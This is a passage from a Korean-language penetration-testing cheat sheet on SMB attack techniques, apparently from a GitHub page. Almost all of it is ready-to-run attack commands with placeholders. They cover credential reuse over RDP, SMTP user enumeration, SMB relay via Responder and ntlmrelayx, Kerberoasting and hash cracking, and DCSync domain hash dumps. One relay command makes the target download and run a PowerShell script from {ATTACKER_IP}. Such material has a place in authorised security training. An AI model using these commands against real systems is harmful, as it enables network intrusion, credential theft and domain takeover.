 ### 🖥️ RDP와 연계 (3389 포트)

```bash
# SMB 크레덴셜로 RDP 접근
rdesktop {IP} -u {SMB_USER} -p {SMB_PASSWORD}
xfreerdp /u:{SMB_USER} /p:{SMB_PASSWORD} /v:{IP}
```

### 📧 메일 서비스와 연계

```bash
# SMB에서 발견한 사용자로 메일 서비스 접근
telnet {IP} 25
VRFY {SMB_USER}
```

---

## 🎯 고급 SMB 공격 기법

### 🔄 SMB Relay 공격

```bash
# SMB 서명 확인 (Relay 가능성 체크)
nmap --script smb-security-mode -p 445 {IP}

# Responder와 ntlmrelayx 사용
responder -I eth0 -rdw
impacket-ntlmrelayx -tf targets.txt -smb2support

# SMB Relay 공격 (서명 비활성화된 경우)
impacket-ntlmrelayx -t {TARGET_IP} -smb2support -c "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://{ATTACKER_IP}/shell.ps1')"
```

### 🔍 Kerberoasting (도메인 환경)

```bash
# 도메인 환경에서 SPN 계정 확인
impacket-GetUserSPNs {DOMAIN}/{USERNAME}:{PASSWORD} -dc-ip {DC_IP}

# Kerberos 티켓 요청 및 크래킹
impacket-GetUserSPNs {DOMAIN}/{USERNAME}:{PASSWORD} -dc-ip {DC_IP} -request

# 획득한 해시 크래킹
hashcat -m 13100 kerberos_hashes.txt /usr/share/wordlists/rockyou.txt
```

### 🗂️ DCSync 공격 (도메인 관리자 권한 확보시)

```bash
# DCSync를 통한 도메인 해시 덤프
impacket-secretsdump {DOMAIN}/{USERNAME}:{PASSWORD}@{DC_IP}

# 특정 사용자 해시만 덤프
impacket-secretsdump {DOMAIN}/{USERNAME}:{PASSWORD}@{DC_IP} -just-dc-user administrator
```

---
